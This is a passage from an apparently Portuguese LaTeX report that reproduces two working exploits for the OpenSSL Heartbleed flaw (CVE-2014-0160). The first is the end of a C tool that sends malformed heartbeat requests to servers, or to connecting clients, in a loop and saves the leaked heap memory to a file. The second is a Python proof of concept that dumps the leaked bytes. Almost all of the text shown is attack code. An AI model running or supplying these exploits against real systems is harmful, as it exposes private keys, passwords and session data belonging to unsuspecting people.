                al=SSL_AD_RECORD_OVERFLOW;
                SSLerr(SSL_F_SSL3_GET_RECORD,SSL_R_DATA_LENGTH_TOO_LONG);
                goto apple;
        }
        rr->off=0;
        s->packet_length=0;
	if(first==0){
		uint heartbleed_len = 0;
		char* fp = s->s3->rrec.data;
		(long)fp++;
		memcpy(&heartbleed_len,fp,2);
		heartbleed_len = (heartbleed_len & 0xff) << 8 | (heartbleed_len & 0xff00) >> 8;
		first = 2;
		leakbytes = heartbleed_len + 16;
		printf("[ heartbleed leaked length=%u\n",heartbleed_len);
	}
	if(verbose==1){
		{ unsigned int z; for (z=0; z<rr->length; z++) printf("%02X%c",rr->data[z],((z+1)%16)?' ':'\n'); }
                printf("\n");
        }
	leakbytes-=rr->length;
	if(leakbytes > 0){
		repeat = 1;
	}
	else{
		repeat = 0;
	}
	printf("[ final record type=%d, length=%u\n", rr->type, rr->length);
	int output = s->s3->rrec.length-3;
	if(output > 0){
		int fd = open(filename,O_RDWR|O_CREAT|O_APPEND,0700);
	        if(first==2){
			first--;
			write(fd,s->s3->rrec.data+3,s->s3->rrec.length);
			/* first three bytes are resp+len */
			printf("[ wrote %d bytes of heap to file '%s'\n",s->s3->rrec.length-3,filename);
		}
		else{
			/* heap data & 16 bytes padding */
			write(fd,s->s3->rrec.data+3,s->s3->rrec.length);
			printf("[ wrote %d bytes of heap to file '%s'\n",s->s3->rrec.length,filename);
		}
		close(fd);
	}
	else{
		printf("[ nothing from the heap to write\n");
	}
	return;
apple:
        printf("[ problem handling SSL record packet - wrong type?\n");
	badpackets++;
	if(badpackets > 3){
		printf("[ error: too many bad packets recieved\n");
		exit(0);
	}
	return;
}

void usage(){
	printf("[\n");
	printf("[ --server|-s <ip/dns>    - the server to target\n");
	printf("[ --port|-p   <port>      - the port to target\n");
	printf("[ --file|-f   <filename>  - file to write data to\n");
	printf("[ --bind|-b   <ip>        - bind to ip for exploiting clients\n");
	printf("[ --precmd|-c <n>         - send precmd buffer (STARTTLS)\n");
	printf("[			    0 = SMTP\n");
	printf("[			    1 = POP3\n");
	printf("[			    2 = IMAP\n");
	printf("[ --loop|-l		  - loop the exploit attempts\n");
	printf("[ --type|-t   <n>         - select exploit to try\n");
	printf("[                           0 = null length\n");
	printf("[			    1 = max leak\n");
	printf("[			    n = heartbeat payload_length\n");
	printf("[\n");
	printf("[ --verbose|-v            - output leak to screen\n");
	printf("[ --help|-h               - this output\n");
	printf("[\n");
	exit(0);
}

int main(int argc, char* argv[]){
	int ret, port, userc, index;
	int type = 1, udp = 0, verbose = 0, bind = 0, precmd = 9;
	int loop = 0;
	struct hostent *h;
	connection* c;
	char *host, *file;
	int ihost = 0, iport = 0, ifile = 0, itype = 0, iprecmd = 0;
	printf("[ heartbleed - CVE-2014-0160 - OpenSSL information leak exploit\n");
	printf("[ =============================================================\n");
        static struct option options[] = {
        	{"server", 1, 0, 's'},
	        {"port", 1, 0, 'p'},
		{"file", 1, 0, 'f'},
		{"type", 1, 0, 't'},
		{"bind", 1, 0, 'b'},
		{"verbose", 0, 0, 'v'},
		{"precmd", 1, 0, 'c'},
		{"loop", 0, 0, 'l'},
		{"help", 0, 0,'h'}
        };
	while(userc != -1) {
	        userc = getopt_long(argc,argv,"s:p:f:t:b:c:lvh",options,&index);	
        	switch(userc) {
               		case -1:
	                        break;
        	        case 's':
				if(ihost==0){
					ihost = 1;
					h = gethostbyname(optarg);				
					if(h==NULL){
						printf("[!] FATAL: unknown host '%s'\n",optarg);
						exit(1);
					}
					host = malloc(strlen(optarg) + 1);
					if(host==NULL){
                				printf("[ error in malloc()\n");
				                exit(0);
        				}
					sprintf(host,"%s",optarg);
               			}
				break;
	                case 'p':
				if(iport==0){
					port = atoi(optarg);
					iport = 1;
				}
                	        break;
			case 'f':
				if(ifile==0){
					file = malloc(strlen(optarg) + 1);
					if(file==NULL){
				                printf("[ error in malloc()\n");
                				exit(0);
        				}
					sprintf(file,"%s",optarg);
					ifile = 1;
				}
				break;
			case 't':
				if(itype==0){
					type = atoi(optarg);
					itype = 1;
				}
				break;
			case 'h':
				usage();
				break;
			case 'b':
				if(ihost==0){
					ihost = 1;
					host = malloc(strlen(optarg)+1);
					if(host==NULL){
			 	                printf("[ error in malloc()\n");
				                exit(0);
				        }
					sprintf(host,"%s",optarg);
					bind = 1;
				}
				break;
			case 'c':
				if(iprecmd == 0){
					iprecmd = 1;
					precmd = atoi(optarg);
				}
				break;
			case 'v':
				verbose = 1;
				break;
			case 'l':
				loop = 1;
				break;
			default:
				break;
		}
	}
	if(ihost==0||iport==0||ifile==0||itype==0||type < 0){
		printf("[ try --help\n");
		exit(0);
	}
	ssl_init();
	if(bind==0){
		ret = tcp_connect(host, port);
		pre_cmd(ret, precmd, verbose);
		c = tls_connect(ret);
		heartbleed(c,type);
		while(repeat==1){
			sneakyleaky(c,file,verbose);
		}
		while(loop==1){
			printf("[ entered heartbleed loop\n");
			first=0;
			repeat=1;
			heartbleed(c,type);
			while(repeat==1){
				sneakyleaky(c,file,verbose);
			}
		}
		printf("[ done.\n");
		exit(0);
	}
	else{
		int sd, pid, i;
		ret = tcp_bind(host, port);
		while(1){
      			sd=accept(ret,0,0);
			if(sd==-1){
				printf("[!] FATAL: problem with accept()\n");
				exit(0);
			}
			if(pid=fork()){
				close(sd);
			}
      			else{
				c = tls_bind(sd);
				pre_cmd(ret, precmd, verbose);
				heartbleed(c,type);
				while(repeat==1){
					sneakyleaky(c,file,verbose);
				}
				while(loop==1){
					printf("[ entered heartbleed loop\n");
					first=0;
					repeat=0;
					heartbleed(c,type);
					while(repeat==1){
						sneakyleaky(c,file,verbose);
					}
				}
				printf("[ done.\n");
				exit(0);
			}
		}
	}
}
\end{lstlisting}

\clearpage



\subsection*{Relatório Exploit OpenSSL TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure}

\begin{lstlisting}[breaklines=true]
#!/usr/bin/python

# Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
# The author disclaims copyright to this source code.

import sys
import struct
import socket
import time
import select
import re
from optparse import OptionParser

options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')

def h2bin(x):
    return x.replace(' ', '').replace('\n', '').decode('hex')

hello = h2bin('''
16 03 02 00  dc 01 00 00 d8 03 02 53
43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
00 0f 00 01 01                                  
''')

hb = h2bin(''' 
18 03 02 00 03
01 40 00
''')

def hexdump(s):
    for b in xrange(0, len(s), 16):
        lin = [c for c in s[b : b + 16]]
        hxdat = ' '.join('%02X' % ord(c) for c in lin)
        pdat = ''.join((c if 32 <= ord(c) <= 126 else '.' )for c in lin)
        print '  %04x: %-48s %s' % (b, hxdat, pdat)
    print

def recvall(s, length, timeout=5):
    endtime = time.time() + timeout
    rdata = ''
    remain = length
    while remain > 0:
        rtime = endtime - time.time() 
        if rtime < 0:
            return None
        r, w, e = select.select([s], [], [], 5)
        if s in r:
            data = s.recv(remain)
            # EOF?
            if not data:
                return None
            rdata += data
            remain -= len(data)
    return rdata
        

def recvmsg(s):
    hdr = recvall(s, 5)
    if hdr is None:
        print 'Unexpected EOF receiving record header - server closed connection'
        return None, None, None
    typ, ver, ln = struct.unpack('>BHH', hdr)
    pay = recvall(s, ln, 10)
    if pay is None:
        print 'Unexpected EOF receiving record payload - server closed connection'
        return None, None, None
    print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
    return typ, ver, pay

def hit_hb(s):
    s.send(hb)
    while True:
        typ, ver, pay = recvmsg(s)
        if typ is None:
            print 'No heartbeat response received, server likely not vulnerable'
            return False

        if typ == 24:
            print 'Received heartbeat response:'
            hexdump(pay)
            if len(pay) > 3:
                print 'WARNING: server returned more data than it should - server is vulnerable!'
            else:
                print 'Server processed malformed heartbeat, but did not return any extra data.'
            return True

        if typ == 21:
            print 'Received alert:'
            hexdump(pay)
            print 'Server returned error, likely not vulnerable'
            return False

def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print 'Connecting...'
    sys.stdout.flush()
    s.connect((args[0], opts.port))
    print 'Sending Client Hello...'
    sys.stdout.flush()
    s.send(hello)
    print 'Waiting for Server Hello...'
    sys.stdout.flush()
    while True:
        typ, ver, pay = recvmsg(s)
        if typ == None:
            print 'Server closed connection without sending Server Hello.'
            return
        # Look for server hello done message.
        if typ == 22 and ord(pay[0]) == 0x0E:
            break

    print 'Sending heartbeat request...'
    sys.stdout.flush()
    s.send(hb)
    hit_hb(s)

if __name__ == '__main__':
    main()
\end{lstlisting}


\end{document}
